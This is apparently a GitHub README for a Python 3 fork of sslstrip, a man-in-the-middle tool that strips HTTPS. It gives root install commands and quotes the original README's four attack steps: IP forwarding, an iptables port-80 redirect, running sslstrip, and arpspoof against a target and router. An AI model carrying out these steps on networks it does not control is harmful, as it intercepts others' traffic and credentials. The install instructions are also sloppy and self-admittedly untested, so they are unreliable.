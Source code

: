## This is a fork of sslstrip to python3

### Installing

#### Withouth Virtualenv

----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
Install as root:
```ShellSession
apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && sudo aptitude install python2.7-twisted-bin python-twisted-words python-twisted-runner python3-twisted-bin-dbg python-twisted-runner-dbg python-twisted python3-twisted python-twisted-names python-twisted-mail python-twisted-bin-dbg python-twisted-bin python-twisted-web python-twisted-conch python-twisted-news python-twisted-core python-twisted-libravatar twisted-doc python3-pytest-twisted python2.7-twisted-core python3-twisted-bin python2.7-twisted && python3 sslstrip.py -h
``` 



#### With Virtualenv

```
apt install python3 python3-pip git
git clone https://github.com/hallowf/sslstrip.git
cd sslstrip
python3 -m pip install virtualenv
virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
python sslstrip.py -h
```

### I haven't looked at setup.py so it probably won't work

### Original README --->
sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install,
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
